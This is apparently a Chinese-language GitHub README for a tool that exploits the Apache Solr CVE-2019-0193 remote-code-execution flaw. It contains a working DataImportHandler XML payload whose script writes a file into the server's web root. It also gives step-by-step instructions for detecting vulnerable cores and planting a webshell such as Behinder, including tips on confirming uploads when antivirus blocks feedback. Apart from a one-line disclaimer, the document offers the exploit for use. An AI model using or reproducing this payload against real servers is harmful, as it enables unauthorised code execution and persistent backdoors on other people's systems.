 # 项目声明
只用于信息安全教学交流，请勿用于非法测试和攻击。

# ApacheSolrRCE
ApacheSolrRCE（CVE-2019-0193）一键写shell，原理是通过代码执行的java文件流写的马。

[Apache-Solr-CVE-2019-0193-漏洞利用](https://jdr2021.github.io/2022/09/12/Apache-Solr-CVE-2019-0193-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/)

注：作者本人比较菜，如果你有bug或者有别的需求，请自行下载代码修改。


# 工具说明
由于互联网上流传的payload都是命令执行，且不方便上webshell，因此写了这段payload（回显123456时，代表写入成功）。

注：工具只能辅助测试，如果工具写不进去，建议手写。

```
<dataConfig>
<dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />
  <script><![CDATA[
          function poc(row){
var buf = new java.io.BufferedWriter(new java.io.FileWriter(java.net.URLDecoder.decode(java.lang.Thread.currentThread().getContextClassLoader().getResource("").getPath().toString().replaceAll("file:\/", "").split("WEB-INF")[0]+"1.txt")));buf.write(new java.lang.String(java.util.Base64.getDecoder().decode("MTIzNDU2")));buf.close();
row.put("title",123456);
return row;

}

]]></script>

<document>
    <entity
        stream="true"
        name="entity1"
        datasource="streamsrc1"
        processor="XPathEntityProcessor"
        rootEntity="true"
        forEach="/RDF/item"
        transformer="script:poc">
             <field column="title" xpath="/RDF/item/title" />
    </entity>
</document>
</dataConfig>
```
# 工具用法

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663056645344.jpg">

先点检测，获得core，并且判断有没有漏洞。

在点击getshell即可。

注：将你的webshell，放在shell目录下，工具会自动加载你的webshell至下拉列表中。

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663056948552.jpg">

默认代理是http代理，端口是8080，代码里面写死了的，需要的自己编译修改即可。

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663057045317.jpg">

<font color="red">注：实际测试时发现，由于杀软问题，点击GETSHELL后，没有任何提示。但是有可能webshell是已经写上去了，建议打开burpsuite，在proxy->http history中看一下webshell的名字，然后访问一下。</font>

如果点击检测提示是有漏洞的，不出意外就是有漏洞的。

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663089037739.jpg">

我这里的判断方式是执行代码 base64decode("xxx")，如果回显有chenggongla，那就是有漏洞

但是在写冰蝎4的时候，发现存在杀软的时候，还是会拦截的。

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663081638024.jpg">

但实际上马是写进去了的

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663081744373.jpg">

# 特别感谢

[solr_exploit](https://github.com/1135/solr_exploit)
